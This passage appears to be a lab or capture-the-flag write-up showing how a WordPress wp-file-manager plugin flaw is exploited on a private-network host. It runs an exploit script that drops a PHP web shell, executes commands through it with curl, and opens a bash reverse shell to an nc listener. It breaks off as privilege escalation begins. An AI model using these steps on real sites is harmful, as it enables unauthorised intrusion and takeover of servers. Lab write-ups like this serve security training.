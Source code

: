  ```bash
python3 2020-wp-file-manager-v67.py http://192.168.100.65/blog
 ```
 output
  ```bash
200
Success!?
http://192.168.100.65/blog/blog/wp-content/plugins/wp-file-manager/lib/php/../files/payload.php 
 ```
 now we have to copy the output called "http://192.168.100.65/blog/blog/wp-content/plugins/wp-file-manager/lib/php/../files/payload.php " an delete 1 blog
 example.
  ```bash
http://192.168.100.65/blog/wp-content/plugins/wp-file-manager/lib/php/../files/payload.php 
 ```
 now we have to use the page with the url before insert commands, in order to use the payload that we injected for example.
  ```bash
❯ curl -s -X GET "http://192.168.100.65/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?"   
 ```
 now we can insert commands.
```bash
❯ curl -s -X GET "http://192.168.100.65/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?cmd=whoami"
<pre>www-data
</pre#     
```
 
 
 ## Exploitation
 

let's take an advantage of ```RCE```, using the RCE that we seted before.


```
from our machine we have to 
nc -nlvp 443
```
so if we are able to execute commands let's make a [reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) here's a list of it if you don't how to make it.

```
❯ curl -s -X GET "http://192.168.100.65/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.100.53/443 0>%261"

```


and on your own machine you have to stay hearing on port 443  ```nc -nlvp 443```, in order to make the connection successfully.

## Privilage Escalation

now that we gain access we have to do the treatment of the TTY because if we don't do it, we will be unable to execute shorcuts such as CTRL + C or CTRL + L or the stty size
let's make it ! press enter to go back to your reverse shell.
first we need to execute this script.
